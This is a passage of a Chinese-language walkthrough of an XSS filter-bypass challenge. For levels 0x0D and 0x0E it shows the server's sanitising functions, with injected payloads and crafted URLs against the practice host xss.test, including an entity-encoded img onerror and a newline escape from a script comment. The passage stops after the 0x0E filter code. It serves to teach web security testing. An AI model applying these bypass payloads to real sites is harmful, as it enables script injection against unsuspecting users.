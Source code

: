 - URL

```url
http://xss.test/?input=%3Cimg%20src%3Dx%20onerror%3D%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(1)%3E%20%0A
```

## 0x0D

- server 源码

输入内容带入到了注释中，可以用换行逃逸。由于过滤了单引号'，所以后面的')可以用-->注释掉。

```php
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
```

- 插入代码

```html
') 
alert(1)
-->
```

- 网页代码

```html
<script>
          // alert(') 
alert(1)
-->')
    </script>
```

- URL

```url
http://xss.test/?input=')%20%0Aalert(1)%0A--%3E
```

## 0x0E

- server 源码

标签里的第一个字母前加上下划线_，并且大写输入所有字母，ſ是古英语中的s的写法, 转成大写是正常的S

```php
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```
